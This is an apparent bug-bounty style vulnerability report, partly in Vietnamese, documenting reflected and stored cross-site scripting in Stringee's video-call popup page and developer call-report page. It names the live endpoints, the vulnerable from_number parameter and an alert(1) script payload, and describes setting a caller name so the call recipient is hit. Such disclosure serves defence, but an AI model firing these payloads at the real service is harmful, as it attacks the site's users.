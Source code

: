 # Reflected XSS + Stored XSS (no bonus)




## Reflected XSS 

Endpoint : https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html?from_number=[xss]

Inject : ```<script>alert(1)</script>```

![](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/Stringee/image/Reflected_XSS.jpg)


## Stored XSS

Url : https://developer.stringee.com/report/call

Inject : ```<script>alert(1)</script>```

Tạo một access_token từ url để thực hiện cuộc gọi 

thay đổi tên người cuộc gọi = `inject `

==> người nhận(victim) bị xss

Endpoint : 

```
https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html
?from_number=[xss]
&to_number=84936423493
&call_type=free-voice-call
&access_token=[secret]
&hotline=[victim]

```

Inject : ```<script>alert(1)</script>```

![](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/Stringee/image/Stored_XSS.png?raw=true)
